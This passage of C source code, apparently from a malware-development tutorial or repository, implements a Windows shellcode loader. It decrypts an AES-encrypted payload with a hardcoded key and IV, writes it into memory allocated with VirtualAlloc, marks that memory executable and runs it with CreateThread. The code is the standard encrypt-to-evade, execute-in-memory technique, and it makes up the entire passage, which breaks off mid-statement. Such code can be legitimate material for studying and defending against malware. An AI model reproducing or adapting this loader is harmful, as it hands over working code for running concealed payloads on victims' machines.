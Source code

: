 ```c

    // Initializing the key and IV needed for the decryption
    PVOID	pPlaintext = NULL;
    DWORD	dwPlainSize = NULL;
    unsigned char AesKey[] = {
        0x82, 0xD7, 0xD0, 0xAA, 0xB9, 0xE9, 0xB1, 0xFC, 0x27, 0xB1, 0x5B, 0x36, 0x0E, 0x7F, 0xAF, 0x48,
        0xEE, 0xDD, 0xD9, 0x3F, 0xEE, 0x69, 0xD1, 0xBD, 0x7D, 0xE4, 0x28, 0xA6, 0x39, 0x86, 0x01, 0x1D };
    unsigned char AesIv[] = {
            0xEC, 0x6C, 0xF0, 0x8E, 0xA6, 0x37, 0xEA, 0xCE, 0x98, 0x8B, 0xA8, 0xA0, 0x3B, 0x95, 0xF8, 0xAC };
    
    // Calling the decryption function
    if (!SimpleDecryption(Bytes, Size, AesKey, AesIv, &pPlaintext, &dwPlainSize)) {
        printf("Decryption exited with code: %d \n", GetLastError());
        return -1;
    }

    // Printing the decypted shellcode
    printf("\n[>] decrypted shellcode:\n");
    for (int i = 0; i  < dwPlainSize; i++) {
        printf("0x%02X, ", ((unsigned char*)pPlaintext)[i]);
    }
    printf("\n");

    // Initiating the shellcode injection
    printf("[#] Press <Enter> To Run ... ");
    getchar();

    PVOID pShellcodeAddress = VirtualAlloc(NULL, dwPlainSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
    printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);

    printf("[#] Press <Enter> To Write Payload ... ");
    getchar();

    // Copying the payload to the allocated memory
    memcpy(pShellcodeAddress, pPlaintext, dwPlainSize);
   
    // Cleaning the pDeobfuscatedPayload buffer, since it is no longer needed
    memset(pPlaintext, '\0', dwPlainSize);

    DWORD dwOldProtection = NULL;
    
    // Setting memory permissions at pShellcodeAddress to be executable
    if (!VirtualProtect(pShellcodeAddress, dwPlainSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }

    // Executing the shellcode
    printf("[#] Press <Enter> To Run ... ");
    getchar();

    // Running the shellcode as a new thread's entry 
    if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
        printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
```